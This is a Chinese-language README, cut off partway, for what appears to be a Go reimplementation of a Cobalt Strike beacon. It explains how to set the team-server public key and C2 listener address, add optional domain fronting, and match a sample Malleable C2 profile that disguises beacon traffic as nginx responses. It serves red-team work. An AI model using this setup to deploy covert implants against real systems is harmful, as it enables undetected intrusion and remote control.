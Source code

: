 有以下两种使用的方法，师傅们可以根据自己的喜好来灵活地使用：

### 第一种使用方法：直接编译成exe执行

#### 1、修改公钥
修改config.go中的公钥RsaPublicKey（此公钥是cs的公钥，不是https的公钥，提取方法可参考[geacon](https://github.com/darkr4y/geacon)介绍。

请注意修改公钥的时候-----END PUBLIC KEY-----那一行无缩进，总共应该是五行。

#### 2、修改C2地址
修改config.go中的C2地址（注意是listener地址，如果是http的listener的话需要将sslHTTP改为plainHTTP）。

域前置设置（可选）：把C2地址更改为域前置回连的域名和端口，然后把config.go里面req.Header的host更改为域前置域名。

#### 3、适配C2profile
config.go中设置了大部分C2profile流量端设置与部分主机端设置。

**C2profile暂时不要设置post-ex中的obfuscation以及data_jitter。多行append配置在config.go中记得加/r。**

如果快速使用的话可以直接使用示例的c2profile（其实示例c2profile流量侧已经配置了不少东西了）不需要修改config.go。如果自己配置可以根据config.go中具体的字段名称来对应，比如说Http_post_id_crypt=[]string{"mask", "netbiosu"}对应着c2profile中的http-post中的id里面的mask;和netbiosu;。我们下个阶段主要的任务是简化配置的过程。

**修改完C2profile后请不要忘记在config.go中对相应位置进行修改。下面给出示例C2profile，默认config.go适配该C2profile：**

```
# default sleep time is 60s
set sleeptime "3000";
set jitter "7";

https-certificate {
    set C "KZ";
    set CN "foren.zik";
    set O "NN Fern Sub";
    set OU "NN Fern";
    set ST "KZ";
    set validity "365";
}

# define indicators for an HTTP GET
http-get {

	set uri "/www/handle/doc";

	client {
		#header "Host" "aliyun.com";
		# base64 encode session metadata and store it in the Cookie header.
		metadata {
			base64url;
			prepend "SESSIONID=";
			header "Cookie";
		}
	}

	server {
		# server should send output with no changes
		#header "Content-Type" "application/octet-stream";
		header "Server" "nginx/1.10.3 (Ubuntu)";
    		header "Content-Type" "application/octet-stream";
        	header "Connection" "keep-alive";
        	header "Vary" "Accept";
        	header "Pragma" "public";
        	header "Expires" "0";
        	header "Cache-Control" "must-revalidate, post-check=0, pre-check=0";

```